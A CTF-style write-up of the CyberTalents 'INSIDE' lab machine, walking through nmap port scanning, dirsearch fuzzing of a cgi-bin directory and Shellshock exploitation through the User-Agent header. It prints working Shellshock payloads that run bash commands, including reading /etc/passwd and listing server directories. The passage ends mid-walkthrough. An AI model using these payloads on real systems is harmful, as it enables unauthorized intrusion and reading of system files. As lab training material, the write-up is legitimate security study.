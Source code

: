 ```yaml
---
title: "CyberTalents INSIDE Machine Writeup | CyberGuy"
date: "2021-08-03"
layout: single
---
```

![main](https://i.ibb.co/sjH5HpX/2021-08-03-12-39.png)

Hi & welcome to INSIDE Machine Writeup by CyberGuy, in this writeup we will solve this machine wich exists in CyberTalents platform, so let's start.

First as you can see in the image, our machine IP is: 18.185.92.165, So first let's try to perform some port scanning on that IP Address to see what are the open ports in it by performing the command below:
```
nmap -sS -sV -p- 18.185.92.165
```
So this command got the following switches:
- -sS This swithch is to tell nmap to perform SynSlyth scanning / Half TCP scanning
- -sV This switch is to extract the ports services versions
- -p- This switch is to scan all network ports which is `65,535`

So after doing some port scanning i get the following results:

![ports](https://i.ibb.co/d6qWz6w/9.png)

Then you can see that there is tow open ports:

- 21 **SSH**
- 3333 **HTTP**

So now let's try entering the port **3333** from the browser by entering:
```
http://18.185.92.165:3333
```
![web](https://i.ibb.co/b1D8HTq/2.png)
Now let's try to make a simple reconnaissance in this web application to gather some info's like:

- Web server
- Files & Directories exists in the application
- Checking server verision 
- Searching for public exploits of any attractive paths / version

So now let's start with knowing the server version by entering unexist file like:
```
http://18.185.92.165:3333/cyberguy
```
This will make the server return `404 Not Found` error which some times contains server info's like:
- Server name
- Server version

![server](https://i.ibb.co/t2y6kbW/2021-08-03-13-30.png)

So now we know the follwoing:

- Sevrer name: Apache
- Operating System: Debian
- Server Version: 2.2.22

Now let's try performing some fuzzing in the application, here I'll use the SecLists wordlist, so clone the SecList using the command:
```
git clone https://github.com/danielmiessler/SecLists.git
```
I'll use the dirsearch tool to fuzz the application using the following command:
```
dirsearch -u "http://18.185.92.165:3333/" -w SecLists/Discovery/Web-Content/common.txt
```
Switches explained:
- -u to specify the **url** / **endpoint** you wanna fuzz
- -w to specify the **wordlist** you will use while fuzzing

![fuzz](https://i.ibb.co/942yK5R/2021-08-03-13-46.png)

As you can see here there is alot of endpoints, but there is an attractive endpoint which is `cgi-bin`, but let me tell you why:
- `cgi-bin` directory means that the `cgi-mod` enabled in the apache server
- the `cgi` refers to **Comman Gateway Interface**, and the `bin` refers to `binary`
- so in this directory the `cgi scripts` exists which the scripts should be executed through the browser like: ```https://www.example.com/cgi-bin/samplescript.pl```
- so now if you serch for the vulnerabilities could be executed if this mod enabled in apache server you will see that you can perform shell shock attack here, let's see how.

First let's try to enter any accessible file here, so we have to methods:
- First: try to enter a file named `status`, this file shows the status of the server like the load avarege & server uptime
- Second: fuzz the server using the command:
```
dirsearch -u "http://18.185.92.165:3333/cgi-bin/" -w SecLists/Discovery/Web-Content/common.txt
```
Now you will see that the result is:
![status](https://i.ibb.co/MCPGbRV/2021-08-03-14-03.png)

Let's try accessing this file through the browser to see what this file contains:
![show](https://i.ibb.co/HVmM5KW/2021-08-03-14-04.png)

Now before exploiting the shell shock vulnerability i suggest to read this PDF from OWASP about **[ShellShock](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)** Vulnerabilities.

Now let's open up the burpsuite to make the job easire & to manipulate some headers:

![burp](https://i.ibb.co/6JXyG8W/2021-08-03-14-09.png)

So let's try injecting this payload in the User-Agent HTTP Header:
```
() { :; }; echo; echo; echo;echo "CyberGuy is here";
```
So breifly what this command do ?
- Simply this command will create an empty function then performing bash commands as shown

So as you can see the code exploited successfully:
![echo](https://i.ibb.co/nDPDKsq/2021-08-03-14-24.png)

Now let's try performing command like: `cat /etc/pwd` in order to list the users of the server by entering:
```
() { :; }; echo; echo; echo;cat '/etc/passwd';
```
But it will not be executed:
![non](https://i.ibb.co/Kzs217J/2021-08-03-14-28.png)

So let's try entering the command through the `/bin/bash` command and specify the command using `-c` switch like that:
```
() { :; }; echo; echo; echo;/bin/bash -c 'cat /etc/passwd';
```
![cmd](https://i.ibb.co/7knhxmC/2021-08-03-14-47.png)

As you can see it really works!, so let's try knowing & listing the current path using:
```
() { :; }; echo; echo; echo;/bin/bash -c 'pwd; ls -lah';
```
![pwd](https://i.ibb.co/5vFppmN/2021-08-03-14-50.png)

Now let's try entering the `/home/` directory to see if there any user not listed in the `/etc/passwd` file or any other hidden data:

```
() { :; }; echo; echo; echo;/bin/bash -c 'cd /home/ && ls -lah';
```
